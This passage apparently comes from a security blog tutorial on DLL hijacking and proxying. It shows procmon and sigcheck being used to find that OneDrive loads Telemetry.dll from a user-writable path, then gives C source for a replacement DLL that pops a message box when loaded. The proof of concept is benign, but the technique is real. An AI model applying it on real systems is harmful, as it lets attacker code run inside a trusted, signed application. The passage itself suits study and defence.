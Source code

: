 <br>
After applying it, we'll see that `C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll` is being used.

![procmon Telemetry.dll found]({{ "/assets/dll_proxying_dll_loaded.png" | relative_url }})

Using sysinternals [sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck) utility we can see that it is a 64-bit dll.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>C:\Tools><span class="ow">sigcheck64.exe C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\22.191.0911.0001\Telemetry.dll</span>

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\users\ieuser\appdata\local\microsoft\onedrive\22.191.0911.0001\Telemetry.dll:
        Verified:       Signed
        Signing date:   11:43 PM 9/11/2022
        Publisher:      Microsoft Corporation
        Company:        Microsoft Corporation
        Description:    Telemetry Library
        Product:        Microsoft OneDrive
        Prod version:   22.191.0911.0001
        File version:   22.191.0911.0001
        MachineType:    <span class="mi">64-bit</span>

</code></pre></div></div>

# What happens when we use any dll as `Telemetry.dll`

Just for testing purposes let's see what happens if we use any dll to hijack `Telemetry.dll`. We will save the following C code as `dll.c`:

{% highlight c  linenos %}
#include <windows.h>
#pragma comment(lib, "user32") // for MessageBoxA

DWORD WINAPI ThreadFunc(void* data) {
    MessageBoxA(NULL, "Hi from a malicious dll", "Hi from a malicious dll", 0);
    return 0;
}

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            CloseHandle(CreateThread(NULL, 0, ThreadFunc, NULL, 0, NULL));
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
{% endhighlight %}
